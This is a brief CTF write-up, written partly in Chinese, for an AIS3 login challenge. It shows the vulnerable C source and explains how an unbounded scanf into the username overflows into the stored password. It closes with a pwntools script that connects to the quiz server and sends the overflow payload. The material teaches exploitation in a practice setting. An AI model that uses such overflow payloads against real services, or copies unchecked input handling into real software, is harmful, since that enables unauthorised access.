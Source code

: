 ```clike=
            buf[i] = buf[i] ^ ais3_user.pass;
        }
        printf("Magic : %s\n", buf);
        Sleep(2);
        exit(0);
    }
};


int main()
{
    int password;
    char choice[12];
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    ais3_user.pass = (int)&password;
    puts("======== AIS3 Login sytem ========");
    printf(" Username : ");
    scanf("%s",ais3_user.name);
    printf(" Password : ");
    scanf("%d", &password);
    if (password == ais3_user.pass) {
        puts("Login Success !");
        while (1) {
            menu();
            fgets(choice, 4, stdin);
            switch (atoi(choice)) {
                case 1:
                    readflag();
                    break;
                case 2 :
                    puts("Bye ~");
                    exit(0);
                    break;
                deafult:
                    puts("Invaild choice !");
                    break;

            }
        }
    }
    else {
        puts("Sorry ! Try your best !");
        exit(0);
    }

    return 0;
}
```
發現在輸入username的時候可以overflow蓋掉pass
因此蓋掉後登入readflag即可
```python=
from pwn import *
import time
if __name__ == '__main__':
    HOST = 'quiz.ais3.org'
    PORT = 56746
    r = remote(HOST,PORT)
    r.recvuntil(' Username : ')
    r.sendline('A'*20+'\xff'*4)
    r.recvuntil(' Password : ')
    r.sendline("-1")
    r.recvuntil(':')
```